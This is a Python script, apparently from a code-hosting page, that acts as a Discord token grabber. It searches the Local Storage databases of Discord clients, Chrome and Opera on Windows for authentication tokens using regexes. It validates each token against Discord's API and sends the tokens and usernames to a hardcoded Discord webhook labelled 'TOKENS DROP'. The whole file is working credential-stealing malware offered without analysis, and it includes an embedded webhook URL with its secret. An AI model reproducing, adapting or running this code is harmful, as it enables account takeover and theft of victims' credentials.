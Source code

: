 
import os
from re import findall
from json import loads, dumps
from urllib.request import Request, urlopen
web1 = "https://discordapp.com/api/webhooks/1060977666758549585/1Tqo6sSMgY5BYEYb0oJKfxGosUIVOOLAY03WCKqkBPbPSJiGemltan9XXw1tRDSndRJ8"
lc = os.getenv("LOCALAPPDATA")
rm = os.getenv("APPDATA")
PATHS = {
    "Discord": rm + "\\Discord",
    "Discord Canary": rm + "\\discordcanary",
    "Discord PTB": rm + "\\discordptb",
    "Google Chrome": lc + "\\Google\\Chrome\\User Data\\Default",
    "Opera": rm + "\\Opera Software\\Opera Stable"
}
def header(token=None):
    headers = {
        "Content-Type": "application/json",
        "user-agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/1.0.9003 Chrome/91.0.4472.164 Electron/13.4.0 Safari/537.36",
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def da(token):
    try:
        return loads(
            urlopen(Request("https://discordapp.com/api/v9/users/@me", headers=header(token))).read().decode())
    except:
        pass
def tukan(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def grabber():
    em = []
    checked = []
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in tukan(path):
            if token in checked:
                continue
            checked.append(token)
            user_data = da(token)
            if not user_data:
                continue
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            emb = {
                "fields": [
                        {
                            "name": "Token",
                            "value": token,
                            "inline": False
                        }
                ],
                "author": {
                    "name": f"{username} ",
                },
            }
            em.append(emb)
    webhook = {
        "content": "",
        "embeds": em,
        "username": "TOKENS DROP"
    }
    try:
        urlopen(Request(web1, data=dumps(webhook).encode(), headers=header()))
    except:
        pass
if __name__ == '__main__':
    grabber()
                
